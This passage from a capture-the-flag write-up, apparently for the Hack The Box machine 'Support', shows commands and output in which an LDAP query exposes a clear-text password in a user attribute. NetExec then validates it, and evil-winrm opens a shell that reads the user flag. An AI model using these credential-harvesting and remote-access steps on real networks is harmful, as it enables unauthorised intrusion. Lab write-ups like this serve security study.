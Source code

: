 Listing users’ attributes led us to discover a clear-text password in support’s user info field. At this point I don’t know what to expect from an easy HTB machine XD.

```bash
ldapsearch -x -H ldap://10.129.230.181 -b 'DC=support,DC=htb' -w '<REDACTED>' -D 'ldap@support.htb' "(CN=support)"
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
uSNCreated: 12617
info: <REDACTED>
...
```

NetExec confirms that not only the credentials are valid but we also have PS Remote access.

```bash
netexec smb 10.129.230.181 -u support -p <REDACTED> --shares      
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.181  445    DC               [+] support.htb\support:<REDACTED>
SMB         10.129.230.181  445    DC               [*] Enumerated shares
SMB         10.129.230.181  445    DC               Share           Permissions     Remark
SMB         10.129.230.181  445    DC               -----           -----------     ------
SMB         10.129.230.181  445    DC               ADMIN$                          Remote Admin
SMB         10.129.230.181  445    DC               C$                              Default share
SMB         10.129.230.181  445    DC               IPC$            READ            Remote IPC
SMB         10.129.230.181  445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.230.181  445    DC               support-tools   READ            support staff tools
SMB         10.129.230.181  445    DC               SYSVOL          READ            Logon server share 
                                                                                                                                                                                             
netexec winrm 10.129.230.181 -u support -p <REDACTED>
WINRM       10.129.230.181  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
WINRM       10.129.230.181  5985   DC               [+] support.htb\support:<REDACTED> (Pwn3d!)
```

Connected over WinRM and read the user flag.

```
evil-winrm -u support -p <REDACTED> -i 10.129.230.181

*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support

*Evil-WinRM* PS C:\Users\support\Documents> hostname
dc

*Evil-WinRM* PS C:\Users\support\Documents> type c:\users\support\desktop\user.txt
f4d44a3f51edf2f9****************
```
